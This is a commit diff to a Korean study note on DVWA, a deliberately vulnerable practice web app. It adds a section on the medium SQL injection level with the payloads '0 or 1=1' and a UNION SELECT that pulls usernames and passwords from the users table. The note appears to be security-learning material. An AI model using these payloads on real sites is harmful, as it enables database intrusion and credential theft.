

Before and after one commit to moonimax/IOT-Security-Dev, a Markdown page: 웹 취약점/DVWA.md, the part around the change. Shown at 85% size. Rendered like a GitHub page; pictures changed too: Images/Pasted image 20260730151807.png (added), Images/Pasted image 20260730152358.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-07-30 15:24:05

````diff
--- a/웹 취약점/DVWA.md
+++ b/웹 취약점/DVWA.md
@@ -103,6 +103,48 @@ sudo systemctl restart httpd
 
 
 
+**Medium
+
+```php
+mysqli_real_escape_string
+// 사용자 입력 값 중 ', \' 등 특수 문자 중 일부 값만 제한
+// \ -> \; -> \\'
+```
+
+다시 공격.
+```mysql
+0 or 1=1
+```
+
+![](../Images/Pasted%20image%2020260730151807.png)
+
+```mysql
+0 UNION SELECT user, password FROM users
+```
+
+![](../Images/Pasted%20image%2020260730152358.png)
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
 
 ---
 
````
Also changed, not shown: 1 other file.
